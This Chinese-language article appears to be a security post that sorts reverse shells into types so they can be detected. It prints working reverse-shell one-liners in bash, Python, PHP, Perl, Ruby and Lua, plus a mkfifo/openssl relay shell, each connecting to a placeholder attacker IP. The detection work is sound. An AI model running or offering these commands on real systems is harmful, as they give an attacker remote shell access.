   

按照这个思路，我们对反弹shell划分出以下三种类型

#### 第一类反弹shell：直接重定向shell的输入输出到socket

最典型的例子是

    
    
    bash -i >& /dev/tcp/10.10.10.10/666 0>&1  
    

通过重定向bash -i的标准输入、标准输出、标准错误到/dev/tcp socket进行网络通信，可以通过下图理解重定向过程

![](https://gitee.com/fuli009/images/raw/master/public/20230714175437.png)这类反弹shell检测方案可以通过检测shell的标准输入、标注输出是否被重定向到socket，也可以通过一些简单的主机网络日志特征覆盖![](https://gitee.com/fuli009/images/raw/master/public/20230714175438.png)![](https://gitee.com/fuli009/images/raw/master/public/20230714175439.png)

  

直接重定向shell解释器的输入输出到socket类型常见例子

    
    
    bash -i >& /dev/tcp/10.10.10.10/6060 0>&1  
    
    
    
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",6060));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
    
    
    
    php -r '$sock=fsockopen("10.10.10.10",6060);exec("/bin/sh -i <&3 >&3 2>&3");'  
    
    
    
    perl -e 'use Socket;$i="10.10.10.10";$p=6060;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
    
    
    
    ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",6060).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
    
    
    
    lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.10.10','6060');os.execute('/bin/sh -i <&3 >&3 2>&3');"  
    

  

#### 第二类反弹shell：通过管道/伪终端等中转, 再重定向shell的输入输出到中转

此类反弹shell借助管道、伪终端等进行中转，如下面这个案例将sh
-i的标准输入、标准输出、标准错误重定向到命名管道/tmp/f，同时加密通信数据也流向该命名管道。

    
    
    mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_client -quiet -connect 0.0.0.0:666 > /tmp/f  
    

在某些变形的场景下，可能经过层层中转，但无论经过几层最终都会形成一条流动的数据通道。通过跟踪fd和进程的关系可以覆盖

![](https://gitee.com/fuli009/images/raw/master/public/20230714175440.png)
